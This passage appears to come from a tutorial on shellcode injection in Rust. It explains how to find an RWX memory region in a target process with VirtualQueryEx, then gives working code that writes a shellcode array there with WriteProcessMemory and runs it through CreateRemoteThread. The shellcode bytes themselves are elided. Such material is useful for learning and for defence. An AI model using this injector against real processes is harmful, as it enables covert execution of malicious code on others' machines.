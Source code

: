 On each iteration of the loop, we query the memory region at the address `address` in the target process using [`VirtualQueryEx`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex).

We use [`VirtualQueryEx`](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualqueryex) to query the memory region at the address `address` in the target process. The address is initially `null` but is updated at each query. We add the size of the memory region to the address to get the next memory region we want to query (
`address = (mbi.BaseAddress as usize + mbi.RegionSize)`).

The goal is to find an `RWX` memory region with a size of at least 317 bytes(the shellcode size - which ideally should not be hardcoded). If we find such a region, we call the `inject_shellcode_into_rwx_region` function to inject the shellcode into it.

## Shellcode Injection

```rust
fn inject_shellcode_into_rwx_region(
    handle: HANDLE,
    base_address: *mut winapi::ctypes::c_void,
) -> Result<(), Box<dyn std::error::Error>> {
    let shellcode: [u8; 317] = [
        0xfc, 0x48,
        // ....
        0x6c, 0x00,
    ];

    unsafe {
        let mut bytes_written = 0;

        WriteProcessMemory(
            handle,
            base_address,
            shellcode.as_ptr() as *const _,
            shellcode.len(),
            &mut bytes_written,
        );

        println!("[+] Injected shellcode into process at {:p}", base_address);

        let mut thread_id = 0;

        CreateRemoteThread(
            handle,
            ptr::null_mut(),
            0,
            Some(std::mem::transmute::<
                _,
                unsafe extern "system" fn(*mut winapi::ctypes::c_void) -> u32,
            >(base_address)),
            base_address,
            0,
            &mut thread_id,
        );

        println!("[+] Created remote thread");
    };

    Ok(())
}
```
